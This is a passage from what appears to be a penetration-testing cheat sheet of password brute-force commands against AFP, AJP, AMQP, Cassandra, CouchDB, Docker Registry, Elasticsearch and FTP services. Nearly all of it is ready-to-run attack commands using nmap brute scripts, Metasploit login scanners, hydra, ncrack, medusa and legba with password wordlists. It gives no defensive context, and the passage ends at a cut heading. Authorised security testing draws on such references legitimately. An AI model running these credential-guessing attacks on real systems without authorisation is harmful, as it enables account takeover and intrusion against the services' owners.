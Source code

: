 ### AFP
```bash
nmap -p 548 --script afp-brute <IP>
msf> use auxiliary/scanner/afp/afp_login
msf> set BLANK_PASSWORDS true
msf> set USER_AS_PASS true
msf> set PASS_FILE <PATH_PASSWDS>
msf> set USER_FILE <PATH_USERS>
msf> run
```
### AJP
```bash
nmap --script ajp-brute -p 8009 <IP>
```
## AMQP (ActiveMQ, RabbitMQ, Qpid, JORAM e Solace)
```bash
legba amqp --target localhost:5672 --username admin --password data/passwords.txt [--amql-ssl]
```
### Cassandra
```bash
nmap --script cassandra-brute -p 9160 <IP>
# legba ScyllaDB / Apache Casandra
legba scylla --username cassandra --password wordlists/passwords.txt --target localhost:9042
```
### CouchDB
```bash
msf> use auxiliary/scanner/couchdb/couchdb_login
hydra -L /usr/share/brutex/wordlists/simple-users.txt -P /usr/share/brutex/wordlists/password.lst localhost -s 5984 http-get /
```
### Docker Registry
```
hydra -L /usr/share/brutex/wordlists/simple-users.txt  -P /usr/share/brutex/wordlists/password.lst 10.10.10.10 -s 5000 https-get /v2/
```
### Elasticsearch
```
hydra -L /usr/share/brutex/wordlists/simple-users.txt -P /usr/share/brutex/wordlists/password.lst localhost -s 9200 http-get /
```
### FTP
```bash
hydra -l root -P passwords.txt [-t 32] <IP> ftp
ncrack -p 21 --user root -P passwords.txt <IP> [-T 5]
medusa -u root -P 500-worst-passwords.txt -h <IP> -M ftp
legba ftp --username admin --password wordlists/passwords.txt --target localhost:21
```
### HTTP Generico Brute
